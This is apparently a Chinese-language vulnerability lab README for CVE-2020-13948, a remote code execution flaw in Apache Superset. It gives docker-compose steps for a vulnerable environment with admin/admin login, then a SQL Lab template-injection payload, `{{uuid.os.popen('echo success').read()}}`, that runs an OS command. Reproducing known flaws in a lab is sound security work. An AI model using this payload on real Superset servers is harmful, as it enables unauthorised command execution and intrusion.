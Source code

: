# Apache Superset 远程代码执行（CVE-2020-13948）

参考链接：

 - https://github.com/apache/superset/commit/a72903cb929c55642b22895dc11999495605a6fe
 - https://mp.weixin.qq.com/s?__biz=Mzg2NjgzNjA5NQ==&mid=2247514583&idx=3&sn=241457690e19c1468deb89dd84872d35&source=41#wechat_redirect

## 启动环境

```
chmod +x init.sh
docker-compose build
docker-compose up -d
```

`superset load_examples`需要等待一段时间， 可以手动登录到容器中执行 `bash /init.sh`

环境启动后，访问`http://your-ip:8080`即可查看 Superset 的页面, 用户名/密码 admin/admin。

## 漏洞测试

1. 登录后访问 `http://your-ip:8080/superset/sqllab`
2. Database 选择内置的 `examples`
3. 输入 `select 1 as {{uuid.os.popen('echo success').read()}}`
4. 点击 `run` 运行即可

![](1.png)
![](2.png)
![](3.png)
![](4.png)
![](5.png)
